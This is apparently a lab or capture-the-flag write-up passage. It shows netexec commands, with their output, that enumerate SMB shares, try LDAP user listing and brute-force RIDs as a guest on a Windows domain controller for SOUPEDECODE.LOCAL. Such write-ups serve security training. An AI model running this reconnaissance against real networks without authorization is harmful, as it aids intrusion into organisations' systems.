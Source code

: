 The domain controller has SMB, kerberos, LDAP and WinRM open. Additionally the server leaks the domain name `SOUPEDECODE.LOCAL`.

I first checked the shares and if the user guest is available for share and user enumeration, which was the case. The only non standard share here is the backup share which is not accessible for the anonymous user.

```terminal
$ nxc smb 10.10.99.112 -u "guests" -p "" --shares
SMB         10.10.99.112    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.99.112    445    DC01             [+] SOUPEDECODE.LOCAL\guests: (Guest)
SMB         10.10.99.112    445    DC01             [*] Enumerated shares
SMB         10.10.99.112    445    DC01             Share           Permissions     Remark
SMB         10.10.99.112    445    DC01             -----           -----------     ------
SMB         10.10.99.112    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.99.112    445    DC01             backup                          
SMB         10.10.99.112    445    DC01             C$                              Default share
SMB         10.10.99.112    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.99.112    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.99.112    445    DC01             SYSVOL                          Logon server share 
SMB         10.10.99.112    445    DC01             Users 
```

The next step is now to enumerate for usernames. This can be done using different methods and heavily depends on the configuration of the domain controller. I usually start by checking whether it is possible to enumerate the users using a LDAP query using the guest user.

```
$nxc ldap 10.10.99.112 -u "guests" -p "" --users
SMB         10.10.99.112    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.10.99.112    389    DC01             [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A58, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
LDAP        10.10.99.112    389    DC01             [+] SOUPEDECODE.LOCAL\guests: 
LDAP        10.10.99.112    389    DC01             [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A58, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
```

This shows that authentication fails to retrieve the usernames. The next approach would be to brute force RIDs and this way find users. Our tool, netexec, will try to retrieve the username using the RID.

```terminal
$nxc smb 10.10.99.112 -u "guests" -p "" --rid-brute
SMB         10.10.99.112    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.99.112    445    DC01             [+] SOUPEDECODE.LOCAL\guests: (Guest)
SMB         10.10.99.112    445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.99.112    445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
SMB         10.10.99.112    445    DC01             501: SOUPEDECODE\Guest (SidTypeUser)
SMB         10.10.99.112    445    DC01             502: SOUPEDECODE\krbtgt (SidTypeUser)
...
```
